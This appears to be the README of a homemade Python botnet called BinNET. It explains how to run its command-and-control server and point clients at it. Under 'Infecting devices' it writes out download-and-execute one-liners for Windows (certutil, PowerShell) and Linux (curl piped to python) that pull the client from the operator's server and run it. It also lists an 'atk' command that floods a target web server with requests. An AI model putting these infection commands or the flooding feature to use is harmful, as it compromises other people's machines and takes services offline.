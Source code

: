 # DISCLAIMER: I AM NOT RESPONSIBLE FOR ANY DAMAGE CAUSED BY THIS TOOL.

# BinNET

This is a very simple botnet with a CnC server, made by me. Feel free to change anything!

Currently, it works in web servers. 

## Requirements
- requests: `pip install requests`
The remaining libraries are included with Python.

## Usage
Run `python server.py` to start listening for incoming connections. It listens by default in port 57849.

To connect machines to your server, you'll first need to change the variable `ADDRESS` in `client.py`. In case you want 
to run this in your own network, replace this variable with your private IP address. If your client machines are outside
your intranet, change the variable's value to your server's public IP address. Every time a client connects to the 
server, it will print a message with the client's IP address.

## Infecting devices

Windows:
```
CMD:
certutil.exe -urlcache -split -f "http(s)://yourip/yourfile" C:\Windows\Temp & python C:\Windows\Temp\yourfile

Downloads the file to the temp directory and runs it. The machine needs to have Python installed.

PowerShell:
Invoke-WebRequest -Uri http://localhost/client.py | Select-Object -ExpandProperty Content | python

Gets the script from your server, and runs it with Python
```

GNU/Linux:
```
curl -s -X GET http(s)://yourip/yourfile | python
```
This reads the file from your server and runs it with Python. It can also run in Windows if the machine has curl installed.

If you are connected to an intranet in the 192.168.1.0/24 range, it will return your private IP. Else, it will return your public IP. I'm currently working on making it work with all private IPs.

## Available commands(i'll update them)
```
list: lists all machines connected.

atk [host] [port] <threads>: sends multiple requests to the host and port specified. Currently, it only works on 
web servers. Default threads: 100.

print [text]: prints a text in all connected machines.

help: shows this help message, but inside the program.
```

PD: the code is not commented, I'm very lazy.
